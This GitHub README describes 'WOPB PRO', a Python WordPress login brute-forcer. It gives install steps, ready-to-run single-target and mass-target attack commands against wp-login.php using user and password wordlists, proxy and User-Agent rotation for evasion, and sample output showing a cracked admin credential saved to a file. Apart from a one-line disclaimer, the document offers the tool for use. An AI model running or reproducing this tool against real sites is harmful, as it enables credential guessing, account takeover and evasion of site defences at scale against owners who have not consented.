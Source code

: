 # WOPB PRO - WordPress Bruteforce Tool

**WOPB PRO** (WordPress Online Password Bruteforcer) adalah tool bruteforce WordPress berbasis Python dengan fitur lengkap:
- Single target & mass target support
- Random User-Agent & Proxy
- Progress bar `tqdm`
- Cek WordPress aktif atau tidak
- Auto resume wordlist jika error
- Save hasil valid login otomatis
- Auto update dari GitHub
- Anti bot basic protection

---

## Features
- [x] Single Target Bruteforce
- [x] Mass Target Bruteforce (multi-threading)
- [x] Random User-Agent
- [x] Proxy Support
- [x] Progress Bar (tqdm)
- [x] Check WordPress Active
- [x] Save result (vuln.txt, mass_vuln.txt)
- [x] Auto update from GitHub repo
- [x] Clean Exit & Error Handling

---

## Installation

1. Clone Repository:

   ```bash
   git clone https://github.com/karranwang/wopb
   ```
   
   ```bash
   cd wopb
   ```
   
2. Install dependencies

   ```bash
   pip install -r requirements.txt
   ```

## Usage

- [X] Single Target

   ```bash
   python wopb.py -u https://target.com/wp-login.php -U wordlists/userlist.txt -p wordlists/passlist.txt --proxy proxy/proxy.txt
   ```
- [X] Mass Target

   ```bash
   python wopb.py -l target.txt -U wordlists/userlist.txt -p wordlists/passlist.txt -t 5 --proxy proxy/proxy.txt
   ```

   -t = 5 (default thread) use from 1 - 10
   
   
- [X] Check Version

   ```bash
   python wopb.py --version
   ```
   
- [X] Update Tools

   ```bash
   python wopb.py --update
   ```
   
- [X] Help

   ```bash
   python wopb.py --help
   ```
   

## Example Output

[*] Starting single target brute...

Bruteforcing: 100%|████████████████████| 50000/50000 [01:23<00:00, 601/s]

[SUCCESS] https://target.com/wp-login.php => admin:password123

Saved to vuln/vuln.txt


## Author

by @karranwang


## Legal Disclaimer

This tool is for educational and authorized testing purposes only.
Using it against targets without permission is illegal!

## Screenshot

![WOPB Screenshot](img.jpg)
